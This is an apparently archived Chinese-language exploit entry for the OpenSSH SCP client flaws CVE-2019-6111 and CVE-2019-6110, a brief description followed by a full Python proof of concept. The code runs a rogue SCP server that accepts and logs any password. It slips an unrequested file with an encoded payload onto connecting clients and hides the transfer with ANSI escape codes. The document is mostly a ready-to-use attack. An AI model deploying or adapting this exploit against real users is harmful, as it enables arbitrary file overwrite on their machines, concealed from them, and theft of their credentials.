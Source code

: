 # 2019-6111&2019-6110 OpenSSH SCP客户端写入任意文件攻击 #
## 受影响版本 ##
OpenSSH <8.0
## 平台 ##
windows 、 linux 等多平台
## 测试系统 ##
ubuntu
## 类型 ##
远程
## 描述 ##
OpenSSH（OpenBSD Secure Shell）是OpenBSD计划组所维护的一套用于安全访问远程计算机的连接工具。该工具是SSH协议的开源实现，支持对所有的传输进行加密，可有效阻止窃听、连接劫持以及其他网络级的攻击。 OpenSSH中的scp client实用程序存在安全漏洞，该漏洞源于程序错误的验证了对象名称。攻击者可利用该漏洞覆盖文件。
## POC ##
<pre class="prettyprit lang-javascript">
import base64
import gzip
import logging
import paramiko
import paramiko.rsakey
import socket
import threading
 
logging.basicConfig(level=logging.INFO)
 
dummy = &#x27;This is the file you requested.\n&#x27;
payload = gzip.decompress(base64.b64decode(
    b&#x27;H4sIAAa+QFwC/51VQW4CMQy85xV+AX+qqrZwoFSo0orbHvbQQw9NIiH1Af0YLyndjZ2x46&#x27;
    b&#x27;ygaIGs43jGTjIORJfzh3nIN/IwltH1b+LHeGdxHnXUsoCWD6yYyjt7AfA1XJdLDR8u5yRA&#x27;
    b&#x27;1/lEjiHbHGafXOMVpySuZaH4Jk1lgjxoocN5YMhRoNhhpA5EWMhlRHBNCWogZYhOnmk2V7&#x27;
    b&#x27;C4FJgwHxKSEwEzTskrQITtj1gYIurAhWUfsDbWIFyXlRwDc8okeZkCzNyjlMmcT4wxA39d&#x27;
    b&#x27;zp8OsJDJsGV/wV3I0JwJLNXKlOxJAs5Z7WwqmUZMPZmzqupttkhPRd4ovE8jE0gNyQ5skM&#x27;
    b&#x27;uVy4jk4BljnYwCQ2CUs53KtnKEYkucQJIEyoGud5wYXQUuXvimAYJMJyLlqkyQHlsK6XLz&#x27;
    b&#x27;I6Q6m4WKYmOzjRxEhtXWBA1qrvmBVRgGGIoT1dIRKSN+yeaJQQKuNEEadONJjkcdI2iFC4&#x27;
    b&#x27;Hs55bGI12K2rn1fuN1P4/DWtuwHQYdb+0Vunt5DDpS3+0MLaN7FF73II+PK9OungPEnZrc&#x27;
    b&#x27;dIyWSE9DHbnVVP4hnF2B79CqV8nTxoWmlomuzjl664HiLbZSdrtEOdIYVqBaTeKdWNccJS&#x27;
    b&#x27;J+NlZGQJZ7isJK0gs27N63dPn+oefjYU/DMGy2p7en4+7w+nJ8OG0eD/vwC6VpDqYpCwAA&#x27;
))
 
class ScpServer(paramiko.ServerInterface):
    def __init__(self):
        self.event = threading.Event()
 
    def check_auth_password(self, username, password):
        logging.info(&#x27;Authenticated with %s:%s&#x27;, username, password)
        return paramiko.AUTH_SUCCESSFUL
 
    def check_channel_request(self, kind, chanid):
        logging.info(&#x27;Opened session channel %d&#x27;, chanid)
        if kind == &quot;session&quot;:
            return paramiko.OPEN_SUCCEEDED
        return paramiko.OPEN_FAILED_ADMINISTRATIVELY_PROHIBITED
 
    def check_channel_exec_request(self, channel, command):
        command = command.decode(&#x27;ascii&#x27;)
        logging.info(&#x27;Approving exec request: %s&#x27;, command)
        parts = command.split(&#x27; &#x27;)
        # Make sure that this is a request to get a file:
        assert parts[0] == &#x27;scp&#x27;
        assert &#x27;-f&#x27; in parts
        file = parts[-1]
        # Send file from a new thread.
        threading.Thread(target=self.send_file, args=(channel, file)).start()
        return True
 
    def send_file(self, channel, file):
        &#x27;&#x27;&#x27;
        The meat of the exploit:
            1. Send the requested file.
            2. Send another file (exploit.txt) that was not requested.
            3. Print ANSI escape sequences to stderr to hide the transfer of
               exploit.txt.
        &#x27;&#x27;&#x27;
        def wait_ok():
            assert channel.recv(1024) == b&#x27;\x00&#x27;
        def send_ok():
            channel.sendall(b&#x27;\x00&#x27;)
 
        wait_ok()
 
        logging.info(&#x27;Sending requested file &quot;%s&quot; to channel %d&#x27;, file,
            channel.get_id())
        command = &#x27;C0664 {} {}\n&#x27;.format(len(dummy), file).encode(&#x27;ascii&#x27;)
        channel.sendall(command)
        wait_ok()
        channel.sendall(dummy)
        send_ok()
        wait_ok()
 
        # This is CVE-2019-6111: whatever file the client requested, we send
        # them &#x27;exploit.txt&#x27; instead.
        logging.info(&#x27;Sending malicious file &quot;exploit.txt&quot; to channel %d&#x27;,
            channel.get_id())
        command = &#x27;C0664 {} exploit.txt\n&#x27;.format(len(payload)).encode(&#x27;ascii&#x27;)
        channel.sendall(command)
        wait_ok()
        channel.sendall(payload)
        send_ok()
        wait_ok()
 
        # This is CVE-2019-6110: the client will display the text that we send
        # to stderr, even if it contains ANSI escape sequences. We can send
        # ANSI codes that clear the current line to hide the fact that a second
        # file was transmitted..
        logging.info(&#x27;Covering our tracks by sending ANSI escape sequence&#x27;)
        channel.sendall_stderr(&quot;\x1b[1A&quot;.encode(&#x27;ascii&#x27;))
        channel.close()
 
def main():
    logging.info(&#x27;Creating a temporary RSA host key...&#x27;)
    host_key = paramiko.rsakey.RSAKey.generate(1024)
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind((&quot;127.0.0.1&quot;, 2222))
    sock.listen(0)
    logging.info(&#x27;Listening on port 2222...&#x27;)
 
    while True:
        client, addr = sock.accept()
        logging.info(&#x27;Received connection from %s:%s&#x27;, *addr)
        transport = paramiko.Transport(client)
        transport.add_server_key(host_key)
        server = ScpServer()
        transport.start_server(server=server)
 
if __name__ == &#x27;__main__&#x27;:
    main()
</pre>